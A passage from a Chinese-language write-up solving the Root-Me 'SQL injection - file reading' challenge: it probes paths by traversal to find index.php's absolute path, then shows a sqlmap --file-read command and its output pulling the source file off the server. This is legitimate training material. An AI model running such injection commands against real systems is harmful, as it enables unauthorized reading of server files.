 由于我们不知道 admin 密码的加密方式，因此无法获得真正的密码。

但是很可能在页面验证登陆账密的时候，会提供相关的代码逻辑，因此我们下一步就是尝试获取认证页面的源码。虽然题目没有说明页面的文件名称，但是不难猜测就是 `index.php` 或 `index.html` 。

访问页面 [http://challenge01.root-me.org/web-serveur/ch31/index.php](http://challenge01.root-me.org/web-serveur/ch31/index.php) 没有 404 报错，说明 index.php 文件是存在的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/07.png)

但是要通过数据读取文件，是需要知道文件的绝对路径的。

文件路径可以在页面尝试通过路径穿越进行试探，例如向前穿越两个目录，访问这个页面：

[http://challenge01.root-me.org/web-serveur/ch31/../../web-serveur/ch31/index.php](http://challenge01.root-me.org/web-serveur/ch31/../../web-serveur/ch31/index.php)

因为可以正常访问且没有报 404 错误，因此可以知道路径 `/web-serveur/ch31/index.php` 是存在的。


但这还不是绝对路径，因为直接访问页面 [http://challenge01.root-me.org/](http://challenge01.root-me.org/) 列印了所有 RootMe 挑战的分类目录，其中还有一层 `Parent directory` 父目录，说明之前至少还有一级目录。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/08.png)

虽然从 Web 页面无法查到这级父目录的名称，不过可以从需要通过 **WebSSH** 的其他挑战查到这个目录，例如这个挑战： [ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1) 。登陆 WebSSH 后，可以查到这两类挑战的共同父级目录名为 `/challenge` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/09.png)


------------

### 读取文件内容

拼接起来就可以得到 `index.php` 页面文件的绝对路径为 `/challenge/web-serveur/ch31/index.php`

此时就可以通过 sqlmap 的 `--file-read` 参数下载这个文件了：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --file-read /challenge/web-serveur/ch31/index.php

[22:50:09] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:50:09] [INFO] fingerprinting the back-end DBMS operating system
[22:50:09] [INFO] the back-end DBMS operating system is Linux
[22:50:10] [INFO] fetching file: '/challenge/web-serveur/ch31/index.php'
do you want confirmation that the remote file '/challenge/web-serveur/ch31/index.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[22:50:16] [INFO] the local file 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org\files\_challenge_web-serveur_ch31_index.php' and the remote file '/challenge/web-serveur/ch31/index.php' have the same size (3113 B)
files saved to [1]:
[*] C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org\files\_challenge_web-serveur_ch31_index.php (same file)

[22:50:16] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 22:50:16 /2019-03-17/
```
